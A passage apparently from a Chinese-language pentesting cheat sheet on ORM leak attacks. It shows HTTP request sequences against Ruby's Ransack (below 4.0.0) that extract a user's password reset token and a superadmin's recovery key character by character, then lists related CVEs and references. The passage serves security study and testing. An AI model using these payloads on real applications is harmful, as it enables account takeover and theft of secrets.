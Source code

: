 ```json
                                                }
                                            }
                                        }
                                    }
                                }
                            }
                        }
                    }
                }
            }
        }
    }
}
```

## Ransack (Ruby)

仅适用于 Ransack < `4.0.0`。

![ransack_bruteforce_overview](https://assets-global.website-files.com/5f6498c074436c349716e747/63ceda8f7b5b98d68365bdee_ransack_bruteforce_overview-p-1600.png)

* 提取用户的 `reset_password_token` 字段

    ```ps1
    GET /posts?q[user_reset_password_token_start]=0 -> 空结果页面
    GET /posts?q[user_reset_password_token_start]=1 -> 空结果页面
    GET /posts?q[user_reset_password_token_start]=2 -> 结果页面

    GET /posts?q[user_reset_password_token_start]=2c -> 空结果页面
    GET /posts?q[user_reset_password_token_start]=2f -> 结果页面
    ```

* 针对特定用户并提取其 `recoveries_key`

    ```ps1
    GET /labs?q[creator_roles_name_cont]=​superadmin​​&q[creator_recoveries_key_start]=0
    ```

## CVE

* [CVE-2023-47117: Label Studio ORM 泄露](https://github.com/HumanSignal/label-studio/security/advisories/GHSA-6hjj-gq77-j4qw)
* [CVE-2023-31133: Ghost CMS ORM 泄露](https://github.com/TryGhost/Ghost/security/advisories/GHSA-r97q-ghch-82j9)
* [CVE-2023-30843: Payload CMS ORM 泄露](https://github.com/payloadcms/payload/security/advisories/GHSA-35jj-vqcf-f2jf)

## 参考

* [ORM 注入 - HackTricks - 2024年7月30日](https://book.hacktricks.xyz/pentesting-web/orm-injection)
* [利用 SQLite 进行 ORM 泄露 - Louis Nyffenegger - 2024年7月30日](https://pentesterlab.com/blog/orm-leak-with-sqlite3)
* [PLORMbing 你的 Django ORM - Alex Brown - 2024年6月24日](https://www.elttam.com/blog/plormbing-your-django-orm/)
* [利用时间型攻击 PLORMbing 你的 Prisma ORM - Alex Brown - 2024年7月9日](https://www.elttam.com/blog/plorming-your-primsa-orm/)
* [QuerySet API 参考 - Django - 2024年8月8日](https://docs.djangoproject.com/en/5.1/ref/models/querysets/)
* [Ransack 密码重置令牌 - Lukas Euler - 2023年1月26日](https://positive.security/blog/ransack-data-exfiltration)